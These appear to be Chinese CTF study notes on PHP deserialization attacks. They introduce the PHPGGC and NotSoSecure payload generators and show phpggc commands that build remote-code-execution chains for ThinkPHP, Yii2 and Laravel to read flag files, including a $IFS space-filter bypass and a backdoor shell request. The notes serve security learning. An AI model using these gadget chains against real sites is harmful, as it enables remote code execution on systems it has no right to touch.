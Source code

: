 
---
➢ 反序列化链项目-PHPGGC&NotSoSecure

➢ 反序列化框架利用-ThinkPHP&Yii&Laravel

#反序列化链项目-PHPGGC&NotSoSecure

-NotSoSecure

https://github.com/NotSoSecure/SerializedPayloadGenerator

为了利用反序列化漏洞，需要设置不同的工具，如 YSoSerial(Java)、YSoSerial.NET、PHPGGC 和它的先决条件。DeserializationHelper 是包含对 YSoSerial(Java)、YSoSerial.Net、PHPGGC 和其他工具的支持的Web界面。使用Web界面，您可以为各种框架生成反序列化payload.

*Java – YSoSerial*

*NET – YSoSerial.NET*

*PHP – PHPGGC*

*Python - 原生*

-PHPGGC  php框架反序列化工具

https://github.com/ambionics/phpggc

PHPGGC是一个包含unserialize()有效载荷的库以及一个从命令行或以编程方式生成它们的工具。当在您没有代码的网站上遇到反序列化时，或者只是在尝试构建漏洞时，此工具允许您生成有效负载，而无需执行查找小工具并将它们组合的繁琐步骤。 它可以看作是frohoff的ysoserial的等价物，但是对于PHP。目前该工具支持的小工具链包括：CodeIgniter4、Doctrine、Drupal7、Guzzle、Laravel、Magento、Monolog、Phalcon、Podio、ThinkPHP、Slim、SwiftMailer、Symfony、Wordpress、Yii和ZendFramework等。


#反序列化框架利用-ThinkPHP-Yii-Laravel

[安洵杯 2019]iamthinking Thinkphp V6.0.X 反序列化

```
./phpggc ThinkPHP/RCE4 system 'cat /flag' --url
```

CTFSHOW 反序列化 267 Yii2反序列化

弱口令登录/源码提示泄漏

```
GET：index.php?r=site%2Fabout&view-source

GET：/index.php?r=backdoor/shell&code=

./phpggc Yii2/RCE1 exec 'cp /fla* tt.txt' --base64
```

CTFSHOW 反序列化 271 Laravel反序列化

```
./phpggc Laravel/RCE2 system "tac$IFSfla*" --url

$IFS代替空格
```

#Thinkphp 反序列化链分析

Thinkphp-All-vuln-main
